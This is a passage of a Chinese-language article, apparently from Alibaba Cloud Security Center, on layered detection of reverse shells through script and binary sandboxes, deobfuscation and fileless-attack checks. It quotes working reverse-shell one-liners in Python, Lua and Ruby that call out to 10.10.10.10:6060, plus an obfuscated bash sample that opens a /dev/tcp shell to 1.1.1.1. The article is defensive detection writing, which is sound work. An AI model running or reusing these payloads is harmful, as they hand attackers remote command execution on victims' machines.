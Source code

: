 编程语言实现标准输入中转，重定向命令执行的输入到中转，比如以下案例

    
    
    python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('10.10.10.10',6060))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"  
    
    
    
    lua5.1 -e 'local host, port = "10.10.10.10", 6060 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'  
    
    
    
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.10","6060");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
    

 **阿里云安全中心多维检测方案**

攻击与防御技术总是在不断的对抗中升级，任何单点的突破都可能形成稳定绕过方式。理论上任何一种反弹shell检测都不是完美的，特别是第三类反弹shell。云安全中心实践纵深检测思想，使用多维度检测方案交叉埋点，覆盖从反弹shell执行到后续渗透利用多个阶段。

![](https://gitee.com/fuli009/images/raw/master/public/20230714175445.png)

除了上文我们详细介绍的更贴近反弹shell本质的FD检测技术，以及从行为目的出发的异常命令行为序列检测技术、异常shell启动检测，还有常规的命令、网络特征覆盖方案以外，云安全中心同时使用以下技术方案进行兜底，最大程度保障检出效果。

### 脚本沙箱

对于脚本类型的反弹shell，阿里云云安全中心也有针对性解决方案。对于落盘脚本文件进行文件落盘检测。包括但不限于bash、python、perl、vbs、powershell、bat、jar等。

    
    
    "${@~~}"  "${@^^}"   $BASH  ${*%%$9tcW\)zX}   <<< "$(  "${@~~}"  $'\162'''e${*}v <<< '   }^^*{$   ")     }^^*{$  ;   }4S:\{\/CZ.!\?//@{$   }^^@{$   "}~~H7ONC{$"   s%  f\"t"n""ir*$p}@!{$  },*{$ }L>JO%*{$ &&  }ca\L&[\%%@{$ '"'"'1&>0 3332/1.1.1.1/PCT/VED/ &> I- HSAB'"'"'=H7ONC    ($"   l}#VDG~g/g:fii\//*{$a"}~@{$"v'"'"'e'"'"'   }~*{$  '  ${@~}   ${@^}  ;   ${*%%S9;fj$^Y}    )"   ${*,,} ${@%r-,,}  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714175446.png)

对于混淆类样本，通过每种语言的trace模式，进行动态解混淆后检测。近些年，java应用越来越多，在云上也出现一些利用jar包进行反弹shell的case。阿里云安全中心对jar等打包类文件进行静态反编译以及结合动态的运行进行多维度判定。

![](https://gitee.com/fuli009/images/raw/master/public/20230714175447.png)

随着攻防对抗程度提升，无文件攻击越来越流行，阿里云安全中心针对无文件类反弹SHELL有相应检测方案。

![](https://gitee.com/fuli009/images/raw/master/public/20230714175448.png)

### 二进制沙箱

阿里云安全中心对于常见的c/c++、go、meterpreter
shellcode等二进制反弹shell开发方式进行了特殊的识别和处理，综合导入函数特征、代码特征、二进制在沙箱中的动态行为特征等多个维度进行检测。

![](https://gitee.com/fuli009/images/raw/master/public/20230714175450.png)
